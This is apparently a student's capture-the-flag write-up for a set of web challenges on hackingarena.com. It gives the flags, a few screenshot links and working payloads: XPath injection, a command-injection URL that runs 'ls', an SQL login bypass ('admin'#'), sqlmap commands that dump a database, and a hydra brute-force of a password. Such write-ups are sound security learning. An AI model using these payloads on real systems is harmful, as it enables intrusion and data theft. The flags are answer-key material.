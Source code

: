 # Web Hacking

## Web 1


**Find the flag on the following site: http://vader.hackingarena.com:805/**

--------------------------------------------------------------------------------


I tried Visiting the http://vader.hackingarena.com:805/robots.txt 

that gave me subfolders, and */nothinguseful* subfolder which had the flag


![pic](./Pictures/web1.png?raw=true)

## web 2 

**Find the flag here: http://kenobi.hackingarena.com:837**


--------------------------------------------------------------------------------


i searched for default credentials for Xerox 

![pic](./Pictures/web2.png)



## The beatles

**Hey, let's bring Beatles back together: http://vader.hackingarena.com:828**

----------------------------------------------------------------------------


Hacking-Arena{I've_got_my_flag_set_on_you}

I tried to change the html code of the page.
max length of inputs => 20
and changed the value of options 

![pic](./Pictures/beatles1.png)
![pic](./Pictures/beatles2.png)



## web 3 

**Find the flag here: http://vader.hackingarena.com:809/**


--------------------------------------------------------------------------------


## Norwegian girl name 

**Find the flag here: http://vader.hackingarena.com:809/**


--------------------------------------------------------------------------------

I tried different methods and tools like brutex, burp-suit, nmap etc.

and then tried hydra to brutforce into the website but the passwords i got didnt work.

So i made a girl name list and run hydra again. That gave me couple of names which i tried Until i got Camilla as password

![pic](./Pictures/norwegiangirls.png)
![pic](./Pictures/norwegiangirlsflag.png)



## Death Star calendar
---------------------------------------------------------

**the flag**: UiO-Hacking-Arena{Star_path_injection}

**Solution**: ' or position()=5]/*[4]|/a['

**refrence**: http://www.securityidiots.com/Web-Pentest/XPATH-Injection/xpath-injection-part-1.html

**Pictures**

![pic](./Pictures/Death_star.png)


## Empty page
---------------------------------------------------------
**The flag**: Hacking-Arena{n0t_empty_it_is_never_empty}

**The solution**: 

    http://kenobi.hackingarena.com:801/index.php?cmd=/;%20ls%20/var

    http://kenobi.hackingarena.com:801/index.php?cmd=/var/sikkerhetsfestivalen/flag

**Description**:

The source code shows the syntaks of the link that it takes cmd after index php

The link below shows that the website runs 'cat' any file in the command 

    http://kenobi.hackingarena.com:801/index.php?cmd=/index.php

so i finished the cat command with ";" and run "ls" on => /var => sikkerhetfestival

there was a file called flag.txt 

**Pictures**

![pic](./Pictures/empty_page.png)


## db login
---------------------------------------------------------

**the tag**: Hacking-Arena{Tw1st_and_sh0000uuut}

**Solution**: admin'#

![pic](./Pictures/dblogin.png)


## Beatles song catalogue 1
----------------------------------------------------------

**The Flag**: Hacking-Arena{H4rd d4y5 0verfl0w}

**Solution**:

    #Found a vulnderablity in "year"
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --technique=B
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --dbs --flush-session
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --dbs
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --tables -D BeatlesData
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" -D BeatlesData -T Flag --dump

**Pictures**

![pic](./Pictures/Beatles_1.png)


------------------